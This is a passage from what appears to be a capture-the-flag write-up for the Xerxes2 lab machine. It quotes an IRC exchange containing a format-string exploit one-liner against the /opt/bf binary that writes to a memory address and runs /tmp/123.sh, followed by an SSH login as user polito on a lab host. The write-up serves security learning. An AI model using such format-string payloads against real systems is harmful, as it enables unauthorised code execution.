 As a side note, I spoke to barrebas on IRC about my exploit route and he was able to refine it further


``` bash
[00:15:55]  <barrebas>	sweet your exploit is much smaller than mine, nice!
[00:16:01]  <recrudesce>	really ???
[00:16:19]  <barrebas>	yeah, i didn't use direct parameter addressing
[00:16:33]  <barrebas>	and i wrote 4 bytes instead of 2, yours is smarter
[00:16:54]  <recrudesce>	that's taken me hours
[00:25:48]  <barrebas>	a bit shorter still:
[00:25:50]  <barrebas>	python -c "print '\x48\x9a\x04\x08' + ';\/tmp\/123.sh;%8173u%16\$hn'" | /opt/bf ',>,>,>,>,>,>,>,>,>,>,>,>,>,>,>,>,>,>,>,>,>,>,>,>,>,>,>,>,>,>,##'
[00:26:08]  <recrudesce>	you know what, that looks like another one i did, but only slightly
[00:26:36]  <barrebas>	anyway, nice work
```


![](http://www.playandroid.com/wp-content/uploads/2012/04/U-Mad-Bro.jpg)



* * *





## Wandering the Operations Deck with Janice


![](http://img3.wikia.nocookie.net/__cb20111214193431/shodan/images/2/22/Janice_Polito_%28portrait%29.png)

Say hello to [Janice Polito](http://shodan.wikia.com/wiki/Janice_Polito), she's got a smirk on her hasn't she ?


``` bash
root@pwk:~# ssh polito@192.168.0.102

Welcome to xerxes2.
      XERXES wishes you
       a pleasant stay.
____   ___  ____  ___  __ ____   ___  ____     ____     ____
`MM(   )P' 6MMMMb `MM 6MM `MM(   )P' 6MMMMb   6MMMMb\  6MMMMb
 `MM` ,P  6M'  `Mb MM69 "  `MM` ,P  6M'  `Mb MM'    ` MM'  `Mb
  `MM,P   MM    MM MM'      `MM,P   MM    MM YM.           ,MM
   `MM.   MMMMMMMM MM        `MM.   MMMMMMMM  YMMMMb      ,MM'
   d`MM.  MM       MM        d`MM.  MM            `Mb   ,M'
  d' `MM. YM    d9 MM       d' `MM. YM    d9 L    ,MM ,M'
_d_  _)MM_ YMMMM9 _MM_    _d_  _)MM_ YMMMM9  MYMMMM9  MMMMMMMM 

polito@xerxes2:~$ id
uid=1001(polito) gid=1001(polito) groups=1001(polito)
polito@xerxes2:~$ ls -l
total 172960
-rw-r--r-- 1 polito polito    142564 Jul 16 10:57 audio.txt
-rw-r--r-- 1 polito polito  44813850 Jul 16 12:17 dump.gpg
-rw-r--r-- 1 polito polito     27591 Jul 16 12:19 polito.pdf

```
